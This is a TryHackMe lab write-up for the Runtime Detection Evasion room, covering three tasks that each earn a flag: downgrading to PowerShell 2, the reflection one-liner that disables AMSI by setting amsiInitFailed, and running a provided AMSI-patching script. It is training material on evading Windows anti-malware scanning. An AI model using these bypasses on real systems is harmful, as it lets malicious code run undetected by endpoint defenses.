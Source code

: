 # Room Information

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Banner%20-%20Runtime%20Detection%20Evasion.png)

Room link: https://tryhackme.com/room/runtimedetectionevasion

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 08/15/2023

# Room Tasks

## PowerShell Downgrade

1. Started up this task's machine

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt0.png)

2. `PowerShell -Version <VERSION NUMBER>` from the Windows machine to launch the specified version of PowerShell, for which we'll specify the version 2.0 of PowerShell since this version will allow us to bypass security features that weren't implemented in this version yet, which ended up creating a text file on the machine's desktop containing this task's flag

```PowerShell
C:\Users\THM-Attacker>PowerShell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt1.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Downgrade%20pt2.png)


**TASK COMPLETED!**

## PowerShell Reflection

1. Started up this task's machine
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt1.png)

2. `[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)` from the Windows machine to use Reflection to modify and bypass the AMSI (Anti-Malware Scan Interface) utility, which ended up creating a text file on the machine's desktop containing this task's flag
```PowerShell
PS C:\Users\THM-Attacker> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PowerShell%20Reflection%20pt3.png)

## Patching AMSI

1. Started this task's machine
![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt1.png)

2. `.\<EXPLOIT>` from the Windows machine to execute the provided PowerShell executable, which ended up creating a text file on the machine's desktop containing this task's flag
```PowerShell
PS C:\Users\THM-Attacker> .\Desktop\bypass.ps1
True
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt2.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Patching%20AMSI%20pt3.png)


**TASK COMPLETED!**
